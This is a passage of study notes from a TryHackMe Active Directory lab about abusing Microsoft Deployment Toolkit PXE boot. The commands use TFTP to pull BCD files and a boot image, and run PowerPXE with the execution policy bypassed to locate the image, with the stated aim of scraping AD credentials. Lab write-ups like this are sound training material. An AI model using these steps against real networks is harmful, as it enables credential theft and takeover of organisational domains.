 #cybersecurity #windows #active-directory

MDT is a Microsoft service that assist wit automating the deployment of Microsoft Operating System.
Usually, MDT is integrated with Microsoft's System Center Configuration Manager SCCM, wich manages all the updates. MDT for fresh installations.

### PXE Boot
PXE boot is usually integrated with DHCP
![[Pasted image 20240912151311.png]]

Once the process is performed, the client will use a [[TFTP]] connection to download the PXE boot image. We can exploit the PXE boot image for two different purposes:
- Inject a privilege escalation vector, such as a Local Administrator account, to gain Administrative access to the OS once the PXE boot has been completed.
- Perform password scraping attacks to recover AD credentials used during the install.

We will use the latter.

### PXE Boot Image Retrieval

[[DHCP]] is a bit finicky, we will bypass the initial steps of the attack, the part where we attempt to request an IP and the PXE boot preconfigure details from [[DHCP]]

Via DHCP we would receive the IP of the MDT server

The second piece of information is the name of the [[BCD]] files
Usually, we use TFTP to request each of these BCD files and enumerate the configuration for all of them

Let's ssh into a machine
`ssh thm@THMJMP1.za.tryhackme.com`

Let's create a folder with our username and copy powerpxe repo into it
```
C:\Users\THM>cd Documents 
C:\Users\THM\Documents> mkdir <username> 
C:\Users\THM\Documents> copy C:\powerpxe <username>\ 
C:\Users\THM\Documents\> cd <username>
```

The first ste is using TFTP and downloading our BCD file to read the configuration of the MDT server.

From the SSH
```
C:\Users\THM\Documents\Am0> tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
```

The we have to lookup THMMDT IP with `nslookup thmmdt.za.tryhackme.com`
With the BCD file recovered, we will be using powerpxe to read its contents
```
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1 C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd" 
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile >> Parse the BCD file: conf.bcd >>>> Identify wim file : <PXE Boot Image Location> <PXE Boot Image Location>
```

WIM files are bootable images in the Windows Imaging Format (WIM). Now that we have the location of the PXE Boot Image, we can use TFTP to download this image
```
tftp -i <THMMDT IP> GET "<PXE Boot Image Location>"
```

